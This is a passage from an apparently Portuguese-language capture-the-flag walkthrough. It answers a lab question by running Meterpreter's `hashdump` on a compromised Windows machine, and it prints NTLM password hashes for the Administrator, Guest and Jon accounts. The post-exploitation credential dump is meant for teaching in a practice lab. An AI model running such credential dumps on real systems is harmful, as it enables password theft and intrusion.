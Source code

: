 ![escalate](escalate.png)

---

## **<a id="cracking">• Cracking</a>**

### **<a id="16">1. What is the name of the non-default user?</a>**

Vamos executar o comando `hashdump` para obter as hashes do sistema.

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

O nome do usuário que estamos procurando é `Jon`.
